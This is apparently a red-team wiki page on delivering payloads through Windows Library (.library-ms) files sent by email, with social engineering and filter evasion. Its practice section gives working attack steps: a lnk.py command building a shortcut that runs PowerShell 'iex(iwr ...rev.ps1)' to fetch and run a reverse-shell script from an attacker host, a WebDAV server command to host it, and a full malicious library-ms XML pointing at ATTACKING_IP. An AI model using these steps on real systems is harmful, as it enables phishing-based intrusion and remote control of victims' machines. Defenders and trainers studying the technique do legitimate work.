 # Windows Library Files

## Theory

Windows Library files (.library-ms files) are a virtual container for user content. It can be used to point to a remote or local storage location.&#x20;

We may send this file by e-mail and use social engineering to get the recipient to open the container (it will appear as a normal directory in Windows Explorer) and then to double-click on our hosted payload to execute it.

{% hint style="success" %}
By delivering our payload via a Windows Library File rather than directly sending a link directly to a remote server hosting our payload, we may avoid IDS/IPS/Anti-spam solutions.
{% endhint %}

{% hint style="info" %}
When SearchConnectorDescription section of the library-ms file points to a remote location, it will [force authentication](../../../ad/movement/mitm-and-coerced-authentications/) through explorer when opening the container folder.
{% endhint %}

## Practice

{% tabs %}
{% tab title="library-ms + lnk" %}
In this scenario, we'll create a `.library-ms` file pointing to our WebDAV server that is hosting a malicious `.lnk` file. The user will need to open both container and shortcut files to execute our payload.

First, let's create our malicious `.lnk` shortcut using [lnk.py](https://github.com/blacklanternsecurity/mklnk) (Python).&#x20;

```bash
# -a : Arguments
# -i : Icon location
python2.7 lnk.py evil.lnk 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -a '-c "iex(iwr http://192.168.45.225/rev.ps1 -UseBasicParsing)"' -i 'C:\Windows\System32\Notepad.exe'
```

Then, start a WebDAV server to host our payload

```bash
# Install with: sudo apt install python3-wsgidav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
```

We can now create our `evil.library-ms` file with the following content

<pre class="language-xml" data-title="evil.library-ms"><code class="lang-xml">&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
&#x3C;name>@windows.storage.dll,-34582&#x3C;/name>
&#x3C;version>6&#x3C;/version>
&#x3C;isLibraryPinned>true&#x3C;/isLibraryPinned>
&#x3C;iconReference>imageres.dll,-1003&#x3C;/iconReference>
&#x3C;templateInfo>
&#x3C;folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}&#x3C;/folderType>
&#x3C;/templateInfo>
&#x3C;searchConnectorDescriptionList>
&#x3C;searchConnectorDescription>
&#x3C;isDefaultSaveLocation>true&#x3C;/isDefaultSaveLocation>
&#x3C;isSupported>false&#x3C;/isSupported>
&#x3C;simpleLocation>
<strong>&#x3C;url>http://ATTACKING_IP&#x3C;/url>
</strong>&#x3C;/simpleLocation>
&#x3C;/searchConnectorDescription>
&#x3C;/searchConnectorDescriptionList>
&#x3C;/libraryDescription>
</code></pre>

If you created this file on linux, we may need to change the text encoding as follow

```bash
unix2dos evil.library-ms
```

We can now send the evil.library-ms file to the target !
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://filesec.io/library-ms" %}
